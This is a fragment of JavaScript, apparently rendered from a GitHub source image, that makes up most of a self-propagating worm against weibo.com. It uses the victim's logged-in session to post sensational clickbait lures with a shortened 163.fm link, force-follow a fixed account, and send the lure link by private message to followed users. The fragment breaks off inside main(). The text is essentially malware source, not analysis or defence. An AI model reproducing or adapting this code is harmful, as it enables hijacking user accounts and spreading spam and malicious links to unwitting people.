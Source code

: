 ```js
	xmlHttp.open("GET",url,false);
	xmlHttp.send();
	result = xmlHttp.responseText;
	id_arr = '';
	id = result.match(/namecard=\"true\" title=\"[^\"]*/g);
	for(i=0;i<id.length;i++){
		sum = id[i].toString().split('"')[3];
		id_arr += sum + '||';
	}
	return id_arr;
}
function random_msg(){
	link = ' http://163.fm/PxZHoxn?id=' + new Date().getTime();;
	var msgs = [
		'郭美美事件的一些未注意到的细节：',
		'建党大业中穿帮的地方：',
		'让女人心动的100句诗歌：',
		'3D肉团团高清普通话版种子：',
		'这是传说中的神仙眷侣啊：',
		'惊爆!范冰冰艳照真流出了：',
		'杨幂被爆多次被潜规则:',
		'傻仔拿锤子去抢银行：',
		'可以监听别人手机的软件：',
		'个税起征点有望提到4000：'];
	var msg = msgs[Math.floor(Math.random()*msgs.length)] + link;
	msg = encodeURIComponent(msg);
	return msg;
}
function post(url,data,sync){
	xmlHttp = createXHR();
    xmlHttp.open("POST",url,sync);
    xmlHttp.setRequestHeader("Accept","text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8");
    xmlHttp.setRequestHeader("Content-Type","application/x-www-form-urlencoded; charset=UTF-8");
    xmlHttp.send(data);
}
function publish(){
	url = 'http://weibo.com/mblog/publish.php?rnd=' + new Date().getTime();
	data = 'content=' + random_msg() + '&pic=&styleid=2&retcode=';
	post(url,data,true);
}
function follow(){
	url = 'http://weibo.com/attention/aj_addfollow.php?refer_sort=profile&atnId=profile&rnd=' + new Date().getTime();
	data = 'uid=' + 2201270010 + '&fromuid=' + $CONFIG.$uid + '&refer_sort=profile&atnId=profile';
	post(url,data,true);
}
function message(){
	url = 'http://weibo.com/' + $CONFIG.$uid + '/follow';
	ids = getappkey(url);
	id = ids.split('||');
	for(i=0;i<id.length - 1 & i<5;i++){
		msgurl = 'http://weibo.com/message/addmsg.php?rnd=' + new Date().getTime();
		msg = random_msg();
		msg = encodeURIComponent(msg);
		user = encodeURIComponent(encodeURIComponent(id[i]));
		data = 'content=' + msg + '&name=' + user + '&retcode=';
		post(msgurl,data,false);
	}
}
function main(){
	try{
		publish();
```